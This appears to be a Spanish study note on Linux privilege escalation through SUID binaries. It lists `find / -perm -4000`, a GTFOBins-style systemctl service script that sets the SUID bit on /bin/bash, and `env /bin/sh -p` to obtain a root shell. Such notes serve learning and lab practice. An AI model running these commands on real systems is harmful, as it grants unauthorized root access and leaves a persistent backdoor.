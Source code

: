 
#### find / -perm -4000 2>/dev/null

Buscar binarios con permisos de root dentro del sistema
`find / -perm -4000 2>/dev/null`

Nos mostrara un montón de binarios y tenemos que identificar cual es el extraño dentro del sistema. Estos suelen ser los comunes que siempre están.
![[Pasted image 20250126114742.png]]

Para identificar cuales no son comunes podemos usar la web de GTFobins para ver si es un binario que se puede usar para la escalada de privilegios, al ser escalada con SUID necesitamos buscar la opción de escalada de privilegios con SUID.

La forma de escalada que nos otorga es creando un archivo que permite ejecutar comandos como root.
Debemos de crear el script en `/tmp`, el fichero a crear debe ser un `.sh`.
````bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
`````

El script esta cambiando los permisos a la bash para poder ser ejecutada como root.
Ejecutamos el script con el comando `bash <nombre_script>`
Ejecutaremos el comando `bash -p` y obtendremos la bash como root.

El binario que se encuentra en `/bin/env` también es un binario vulnerable, el cual se puede explotar para obtener un usuario root, usaremos de nuevo la web de GTFobins,
encontramos el siguiente comando `./env /bin/sh -p` pero como nosotros no somos usuarios privilegiados ni nos encontramos en ese directorio debemos ejecutar el comando de la siguiente forma `env /bin/sh -p`


#### find / -not -type l -perm -o+w

Ver permisos en ficheros
